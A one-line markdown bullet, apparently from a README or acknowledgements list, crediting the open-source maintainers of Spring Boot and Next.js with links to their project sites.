- **[Spring Boot](https://spring.io/) & [Next.js](https://nextjs.org/)** open-source maintainers.
